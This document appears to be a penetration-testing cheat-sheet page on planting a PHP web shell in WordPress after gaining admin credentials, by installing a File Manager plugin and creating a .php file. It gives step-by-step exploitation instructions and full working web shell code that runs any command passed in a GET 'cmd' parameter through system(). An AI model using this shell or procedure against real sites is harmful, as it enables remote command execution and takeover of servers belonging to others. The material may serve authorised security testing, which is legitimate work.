





# Wordpress - Install File Managment Plugin 

In case uploading a plugin was not possible for any reason related to custom wordpress configuration or web server configuration ( Maximum upload size ), you might be able to install file managment plugin instead and create a new file that will contain your shell code.
## Requirements

 - A valid **username and password** of a user with **admin rights** on the Wordpress.

## Exploitation

### Accessing the dashboard

Connect with a user with administrative rights on the Wordpress at [http://TARGET/wp-login.php](http://TARGET/wp-login.php).


### Installing the plugin

- Go to "Plugin" --> "Add New" page.



- In the next step, type "File Manager" in the search bar and install any of those file managment plugin ( First one recommended ). Active the plugin from the same page after installing it.


### Using the plugin

- On the side bar, you will find the plugin name, Navigate to its page. 




- Right click on the icon that is related to creating a new file --> Choose plain txt --> change filename extension from ```.txt``` to ```.php```



- Select the created file --> Right click --> Navigate to the code editor.




- Paste your php webshell code.


```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>

```



- Navigate to the main URL of your target with attaching your created filename into it [http://TARGET/NewFile.php](http://TARGET/NewFile.php)

- Execute the commands.


## References
 - https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
